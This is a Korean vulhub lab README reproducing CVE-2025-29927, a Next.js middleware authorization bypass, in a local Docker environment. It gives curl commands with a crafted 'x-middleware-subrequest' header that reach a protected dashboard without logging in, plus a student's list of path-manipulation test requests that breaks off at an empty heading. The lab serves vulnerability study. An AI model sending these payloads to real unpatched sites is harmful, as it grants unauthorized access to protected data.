 # Next.js 미들웨어 인가 우회 (CVE-2025-29927)

> 화이트햇 스쿨 3기 - [김민수 (@idealinsane)](https://github.com/idealinsane)

[영어 버전(Chinese version)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.md)
[중국어 버전(Chinese version)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.zh-cn.md)

Next.js는 서버 사이드 렌더링 (Server-Side Rendering), 정적 사이트 생성 (Static Site Generation), 통합 라우팅 시스템 (Integrated Routing System) 등의 기능을 제공하는 인기 있는 React 기반 웹 애플리케이션 프레임워크입니다.
인증 (Authentication) 및 인가 (Authorization) 목적으로 **미들웨어 (Middleware)** 를 사용하도록 구성된 경우, 버전 14.2.25 이전 및 15.2.3 이전에서는 인가 우회 (Authorization Bypass) 취약점이 존재합니다.

이 취약점은 공격자가 `x-middleware-subrequest` 헤더를 조작하여 미들웨어 기반 보안 제어를 우회함으로써 보호된 자원과 민감한 데이터에 무단 접근할 수 있게 만듭니다.

**참고 자료 (References):**

- <https://github.com/advisories/GHSA-f82v-jwr5-mffw>
- <https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-29927>

<br/>

### 환경 설정 (Environment Setup)

다음 명령어를 실행하여 Next.js 15.2.2 기반의 취약한 애플리케이션을 시작합니다:

```
docker compose up -d
```

애플리케이션이 시작되면, `http://your-ip:3000` 주소를 방문할 때 로그인 페이지로 리디렉션됩니다. 기본 자격 증명인 `admin:password`를 입력하여 로그인하고 대시보드에 접근할 수 있습니다.

<br/>

### 취약점 재현 (Vulnerability Reproduction)

유효한 자격 증명 없이 대시보드에 직접 접근하려고 하면, 로그인 페이지로 리디렉션됩니다:

```bash
curl -i http://your-ip:3000
```

![](1.png)
취약점을 악용하려면, 요청에 `x-middleware-subrequest` 헤더를 추가하고 값으로 `middleware:middleware:middleware:middleware:middleware`를 설정합니다. 이로 인해 Next.js 미들웨어가 해당 헤더를 잘못 처리하여 인증 검사를 우회하게 됩니다:

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```

![](2.png)

보시다시피, 대시보드에 인증 없이 접근이 가능합니다.

> 만약 이전 페이로드가 작동하지 않을 경우, `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` 헤더를 시도할 수도 있습니다.

## 실습 결과 (yeojin-206)
###정상요청
```bash
curl -i http://localhost:3000/admin
#307 Temporary Redirect

curl -i http://localhost:3000/%2fadmin 
307 Temporary Redirect

curl -i http://localhost:3000/admin/. 
308 Permanent Redirect

curl -i http://localhost:3000/admin%2f
307 Temporary Redirect

curl -i http://localhost:3000/./admin
307 Temporary Redirect
```
###비정상요청
